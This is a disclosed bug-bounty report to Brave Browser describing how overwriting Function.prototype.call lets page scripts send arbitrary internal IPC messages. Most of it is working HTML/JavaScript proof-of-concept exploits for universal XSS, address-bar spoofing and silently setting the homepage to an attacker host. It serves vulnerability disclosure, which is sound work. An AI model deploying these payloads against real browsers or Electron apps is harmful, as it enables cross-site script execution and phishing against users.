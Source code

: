# Brave Browser unexpectedly allows to send arbitrary IPC messages

## Report Details
- **Report ID**: 187542
- **URL**: https://hackerone.com/reports/187542
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-12-02T00:41:45.053Z
- **Disclosed**: 2018-09-18T18:15:18.396Z

## Reporter
- **Username**: masatokinugawa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
I found that Brave Browser allows to overwrite the internal js code from the user js code.
Using this behavior, an attacker can send arbitrary IPC messages and do UXSS, address bar spoofing, changing browser settings and so on. 

## Steps to Reproduce:

1 .  An attacker overwrites `Function.prototype.call`, like this:

```
Function.prototype.call=function(e){
    if(e[0]&&e[0]=="window-alert"){
        e[0]="[ARBITRARY_IPC_MESSAGE_HERE]";
        e[1]="[ARBITRARY_IPC_MESSAGE_HERE]";
    }
    return this.apply(e);
}
```
2 .  An attacker calls `alert()`.

3 .  Brave's `alert()` function calls `Function.prototype.call` in the internal code. At this time, the overwritten `Function.prototype.call` is used in the `alert` internal code.

4 .  `Function.prototype.call` receives IPC messages as arguments. This arguments are replaced to arbitrary messages by step 2's code. Thus, an attacker can send arbitrary IPC messages.

## PoC:

I'd like to show three PoCs:

###UXSS PoC

(If it goes well, you can see an alert dialog on google's domain.)
```
<script>
Function.prototype.call=function(e){
    if(e[0]&&e[0]=="window-alert"){
        e[0]="dispatch-action";
        e[1]='{"actionType":"window-new-frame","frameOpts":{"location":"https://www.google.com/ncr"},"openInForeground":true}'
    }
    return this.apply(e);
}
alert();

setTimeout(function(){
	for(var windowKey=0;windowKey<10000;windowKey++){
		Function.prototype.call=function(e){
			if(e && e[0] && e[0]=="window-alert"){
				e[0]="dispatch-action";
				e[1]=`{"actionType":"window-set-url","location":"javascript:alert('document.domain is: '+document.domain)","key":${windowKey}}`
			}
			return this.apply(e);
		}
		alert();
	}
},3000);
</script>
```


###Address Bar Spoofing PoC

(If it goes well, you can see https://www.google.com/ in address bar.)
```
<script>
Function.prototype.call=function(e){
	if(e && e[0] && e[0]=="window-alert"){
		e[0]="dispatch-action";
		e[1]='{"actionType":"window-set-navbar-input","location":"https://www.google.com/"}';
	}
	return this.apply(e);
}
alert();
</script>
```


###Change browser settings PoC

(If it goes well, your home page is changed to http://attacker.example.com/ . You can see it in `about:preferences`. )
```
<script>
Function.prototype.call=function(e){
    if(e[0]&&e[0]=="window-alert"){
        e[0]="dispatch-action";
        e[1]='{"actionType":"app-change-setting","key":"general.homepage","value":"http://attacker.example.com/"}'
    }
    return this.apply(e);
}
alert();
</script>
```

FYI, Electron has similar issues. I reported it to Electron team and they are working on it.
Could you confirm this bug?
Thanks!

## Attachments
No attachments
